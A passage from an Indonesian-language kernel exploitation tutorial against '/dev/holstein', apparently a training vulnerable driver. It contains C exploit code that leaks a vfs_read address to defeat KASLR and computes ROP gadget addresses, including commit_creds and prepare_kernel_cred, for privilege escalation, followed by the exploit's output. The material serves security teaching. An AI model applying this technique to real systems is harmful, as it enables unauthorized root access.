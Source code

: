kita tekan "c" pada gdb, dan qemu akan menampilkan daftar address yang kita bocorkan, dan kita menemukan ini:

```bash
....
[*]leaked = 1032-> 0x408: 0xffffffff8113d33c
....
```
ingat saat kita melakukan penulisan diluar batas sebelumnya? ketika mengirim data menggunakan write hingga menimpa RIP dengan vfs_write, saya yakin kali ini kita melakukan pembacaan diluar batas hingga membocorkan vfs_read. karena alamat kernel hanya hanya mengarah kesekitar 0xffffffff810000000, jadi dalam alamat RSP diatas, ada beberapa yang mengarah ke alamat yang kita maksud seperti ```0xffffffff8113d33c```,```0xffffffff8113d6e3``` dan ```0xffffffff8113d775```.

untuk memastikkannya, ayo kita sedikit ubah kode exploit kita yang sebelumnya untuk menghitung offset kernel base dan gadget rop lainnya:

```c
...
for(int i=0;i < 0x480; i++){
       //printf("[*]leaked = 0x%016lx\n",*(unsigned long*)(buff + i * 8) & 0xfff);
       if((*(unsigned long*)(buff + i * 8) & 0xfff) == 0x33c){
       vfs_read = *(unsigned long*)(buff + i * 8);
       break;
       }
    }

    kbase = vfs_read - (0xffffffff8113d33c - 0xffffffff81000000);
    pop_rdi = kbase + 0x27bbdc;
    pop_rcx = kbase + 0x32cdd3;
    mov_rdi_rax_rep_movsq = kbase + 0x60c96b;
    swapgs = kbase + 0x800e26;
    commit_creds = kbase + 0x6e390;
    prepare_kernel_cred = kbase + 0x6e240;

    printf("kbase : 0x%016lx\n" ,kbase);
    printf("vfs_read: 0x%016lx\n" ,vfs_read);
    printf("commit_creds: 0x%016lx\n" ,commit_creds);
    printf("prepare_kernel_cred: 0x%016lx\n" ,prepare_kernel_cred);
    printf("swapgs: 0x%016lx\n" ,swapgs);
    printf("pop_rdi: 0x%016lx\n" ,pop_rdi);
    printf("pop_rcx: 0x%016lx\n" ,pop_rcx);
    printf("mov_rdi_rax_rep_movsq: 0x%016lx\n" ,mov_rdi_rax_rep_movsq);


...
```
dan ini hasil yang didapat:

```bash
$ ./exploit
/dev/holstein terbuka
[*] tahap pertama, leaked
kbase : 0xffffffff81000000
vfs_read: 0xffffffff8113d33c
commit_creds: 0xffffffff8106e390
prepare_kernel_cred: 0xffffffff8106e240
swapgs: 0xffffffff81800e26
pop_rdi: 0xffffffff8127bbdc
pop_rcx: 0xffffffff8132cdd3
mov_rdi_rax_rep_movsq: 0xffffffff8160c96b


```
